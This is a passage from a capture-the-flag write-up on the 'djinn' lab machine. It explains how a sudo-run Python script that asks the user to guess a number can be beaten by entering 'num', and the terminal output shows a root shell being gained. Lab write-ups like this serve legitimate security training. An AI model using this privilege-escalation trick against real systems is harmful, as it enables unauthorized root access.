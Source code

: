 ```bash
        else:
            print("Better Luck next time")
    except:
        print("Slow claps again")
...
```

As we can see in the previous result, this script generates a random number and then asks to the user for the generated number and if is true it will execute a /bin/sh, knowing how it works we can bypass this by inserting the word **num** where it asks us to enter a number from 1 to 100, and we get a root shell.

```bash
sam@djinn:/opt/80$ sudo /root/lago
sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
2
Choose a number between 1 to 100: 
Enter your number: num
num
# id
id
uid=0(root) gid=0(root) groups=0(root)
```
